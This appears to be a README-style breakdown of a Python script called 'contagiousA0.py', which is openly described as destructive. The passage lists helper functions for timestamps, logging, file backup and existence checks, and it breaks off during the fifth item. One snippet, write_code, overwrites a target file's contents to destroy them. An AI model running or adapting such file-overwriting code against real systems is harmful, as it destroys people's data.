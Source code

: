 
## Code Breakdown

The `contagiousA0.py` script consists of several functions designed to perform its destructive operations in a controlled and structured manner. Below is a breakdown of the major components:

### 1. **ParseTime**:
   - **Purpose**: This function retrieves the current system time and formats it as a string. This timestamp is used for naming backup and log files to keep them unique and traceable.
   
   - **Example Usage**:
     ```python
     def parse_time():
         return datetime.now().strftime("%Y-%m-%d_%H-%M-%S")
     ```

### 2. **WriteLog**:
   - **Purpose**: Logs each action the script takes, including file overwrites, backups, and any errors encountered.
   
   - **Example**:
     ```python
     def write_log(message):
         with open('log.txt', 'a') as log:
             log.write(f"{parse_time()} - {message}\n")
     ```

### 3. **WriteCode**:
   - **Purpose**: This function writes predefined data (often nonsensical or meaningless) into a target file, effectively destroying its original content.
   
   - **Example**:
     ```python
     def write_code(file_path):
         with open(file_path, 'w') as file:
             file.write("### File Overwritten by ContagiousA0 ###\n")
     ```

### 4. **CreateBackup**:
   - **Purpose**: Before overwriting a file, the script backs it up in various formats, including JSON, Python, and plain text. This provides a slim chance for recovery if the backup files are intact.
   
   - **Example**:
     ```python
     def create_backup(file_path):
         with open(file_path, 'r') as file:
             data = file.read()
         with open(f"{file_path}_{parse_time()}.json", 'w') as backup:
             json.dump(data, backup)
     ```

### 5. **CheckFile**:
   - **Purpose**: Verifies if the file exists before attempting to overwrite it. If the file doesn’t exist, the script will skip it.
   